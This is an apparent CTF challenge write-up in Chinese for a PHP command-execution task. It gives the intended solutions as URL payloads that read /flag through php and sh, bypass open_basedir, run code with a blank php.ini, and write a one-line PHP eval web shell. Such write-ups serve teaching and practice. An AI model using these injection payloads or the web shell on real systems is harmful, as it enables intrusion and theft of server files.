 ## 题目名称
命令执行

## 题目描述
命令执行，你行不行。老前辈说过“最安全的系统就是什么都没有”

## 出题/解题思路
没有命令怎么执行命令

```
# 方法一、php+文件，文件内容会被当成php代码执行，相当于include
/?xbx=php /flag

/?xbx=php -h
# 方法二、指定根目录，绕过open_basedir
/?xbx=php -t / -r "include('/flag');"

# 方法三、使用空配置文件（默认配置）执行php代码
/?xbx=>php.ini
/?xbx=php -c php.ini -r "include('/flag');"

# 方法四、sh+文件，并输出错误信息（蚁剑是这个原理）
/?xbx=sh /flag 2>&1
/?xbx=sh%20/flag%202>%261
2>&1 的意思就是将标准错误重定向到标准输出

# 其他：echo还是能用的，可以写shell但是没什么实际用处，很多函数都被禁了，如果做出来就是非预期
/?xbx=echo "<?php eval(\$_POST['t']);" > t.php
```

非预期，shell脚本读
```
#!/bin/sh
while read LINE; do
echo $LINE
done < /flag
```

## flag
